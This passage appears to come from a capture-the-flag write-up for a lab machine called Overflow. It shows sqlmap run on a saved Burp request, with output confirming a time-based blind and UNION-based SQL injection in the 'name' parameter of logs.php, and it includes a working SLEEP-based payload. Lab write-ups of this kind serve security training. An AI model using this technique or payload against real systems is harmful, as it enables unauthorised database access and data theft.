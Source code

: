 We replace the value of `name` with `*` as marker for sqlmap and save the request.

[![045_burp_save](/img/overflow/045_burp_save.png)](/img/overflow/045_burp_save.png)

Running sqlmap on it it identifies the injection point rather quickly.

```
$ sqlmap -r logs.req
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:11:14 /2021-10-24/

[00:11:14] [INFO] parsing HTTP request from 'logs.req'
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
...[snip]...
[00:11:29] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[00:11:42] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[00:11:42] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[00:11:43] [INFO] target URL appears to be UNION injectable with 3 columns
[00:11:43] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://overflow.htb:80/home/logs.php?name=') AND (SELECT 9796 FROM (SELECT(SLEEP(5)))hcfK) AND ('UNju'='UNju
```